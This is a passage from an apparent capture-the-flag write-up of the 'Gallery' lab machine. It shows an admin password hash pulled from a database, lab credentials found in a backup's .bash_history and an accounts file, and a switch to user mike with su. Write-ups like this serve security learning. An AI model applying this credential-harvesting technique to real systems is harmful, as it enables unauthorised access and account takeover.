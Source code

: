 ```
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1629883080_1624240500_avatar.png | NULL       |    1 | 2021-01-20 14:02:37 | 2021-08-25 09:18:12 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```

And that gives us the answer to the third objective: **What's the hash password of the admin user?**

I try and crack the password hash but don't have any luck and decide to look around the system some more.

Looking in **/var** I notice a **backups** folder and look inside.

```
www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```

And:

```
www-data@gallery:/var/backups/mike_home_backup/documents$ cat accounts.txt 
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```

<br>

## Mike

Those last accounts don't look very real but the sudo command from the **.bash_history** file above certainly looks promising. I try and switch over to **mike**:

```
www-data@gallery:/var/backups/mike_home_backup$ su mike
Password: 
mike@gallery:/var/backups/mike_home_backup$
```
